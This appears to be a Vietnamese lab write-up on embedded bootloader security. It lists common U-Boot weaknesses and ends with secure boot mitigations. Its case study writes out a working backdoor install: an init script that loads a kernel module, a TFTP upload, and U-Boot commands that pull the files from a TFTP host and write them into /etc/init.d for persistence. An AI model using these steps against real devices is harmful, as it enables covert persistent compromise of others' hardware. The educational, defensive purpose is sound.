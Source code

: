 ```yaml
---
title: "Bootloader Security: Các lỗ hổng bảo mật và kỹ thuật tấn công"
author: kiennql
date: 2025-06-19 14:14:00 +0700
categories: [bootloader-labs]
tags: [bootloader, security, u-boot, embedded security, penetration testing, backdoor, tftp, kernel module, kernel, secure boot]
description: "Phân tích các lỗ hổng bảo mật bootloader, kỹ thuật tấn công qua TFTP và cài đặt backdoor, kèm giải pháp secure boot."
math: true
mermaid: true
render_with_liquid: false
---
```


## 1. Các lỗ hổng bootloader phổ biến

| Lỗ hổng | Mô tả | Khai thác |
|---------|-------|-----------|
| **Console port access** | Console port kết nối qua endpoint web công khai | Truy cập bootloader trực tiếp |
| **Thiếu authentication** | Không có xác thực trong bootloader | Thay đổi cấu hình, tải mã độc |
| **Unsigned code execution** | Cho phép thực thi code không ký | Chèn và thực thi backdoor |
| **Firmware update không an toàn** | Cơ chế cập nhật firmware yếu | Cập nhật firmware chứa malware |
| **Pre-secure boot access** | Truy cập trước khi secure boot | Cài đặt malware trước bảo vệ |

## 2. Case Study - Penetration Test

### 2.1. Mục tiêu

Trong quá trình pentest, phát hiện endpoint `http://vexpress.arm:8000` kết nối tới console của thiết bị nhúng.

**Target:** Cài đặt backdoor để có shell access và liệt kê processes.

### 2.2. Môi trường lab

```mermaid
graph LR
    A[Attacker] --> B[TFTP Server<br/>192.39.37.4]
    A --> C[Target Device<br/>vexpress.arm:8000]
    B --> C
```

## 3. Triển khai Bootloader Attack

### 3.1. Chuẩn bị payload

Tạo kernel module backdoor và init script:

```bash:S60kernel
#!/bin/sh
case "$1" in
    start)
        insmod /var/processenum.ko &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    stop)
        rmmod processenum &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    restart|reload)
        "$0" stop; "$0" start
        ;;
    *)
        echo "Usage: $0 {start|stop|restart}"
        exit 1
esac
exit $?
```

Files cần thiết:
```bash
root@kai:~/Desktop/backdoor-files# ls
S60kernel  processenum.ko
```

### 3.2. Upload lên TFTP server

```bash
tftp tftp.server
tftp> put S60kernel
Sent 392 bytes in 0.0 seconds
tftp> put processenum.ko  
Sent 124012 bytes in 0.0 seconds
```

### 3.3. Khai thác bootloader

Truy cập console qua web endpoint và thực hiện:

**Bước 1:** Cấu hình network
```bash
=> dhcp
=> setenv serverip 192.39.37.4
```

**Bước 2:** Download files vào memory
```bash
=> tftp 0x63000000 processenum.ko
Bytes transferred = 123320 (1e1b8 hex)

=> tftp 0x65000000 S60kernel  
Bytes transferred = 370 (172 hex)
```

**Bước 3:** Ghi vào filesystem
```bash
=> ext4write mmc 0:1 0x63000000 /var/processenum.ko 01e1b8
123320 bytes written in 421 ms

=> ext4write mmc 0:1 0x65000000 /etc/init.d/S60kernel 0x172
370 bytes written in 375 ms

=> reset
```

### 3.4. Kết quả

Device reboot và backdoor tự động chạy với **PID 903**.

![Attack Result](/assets/img/post/bootloader-security/Untitled.webp)
_Backdoor đã được cài đặt thành công_

## 4. Giải pháp khắc phục

### 4.1. Secure Boot Technologies

| Solution | Mô tả |
|----------|-------|
| **ARM Trusted Firmware** | Quản lý boot process an toàn |
| **U-Boot Secure Boot** | Xác thực digital signature |
| **OP-TEE** | Trusted Execution Environment |
| **Tianocore EDK II** | UEFI secure boot cho ARM |

### 4.2. Best Practices

1. **Disable Console Access** trong production
2. **Implement Code Signing** - chỉ chạy signed code
3. **Secure Firmware Update** với encryption/authentication
4. **Boot Chain Verification** từ hardware root of trust
5. **Access Control** cho bootloader commands

**Lưu ý:** Triển khai secure boot từ giai đoạn thiết kế để đảm bảo hiệu quả tối đa.
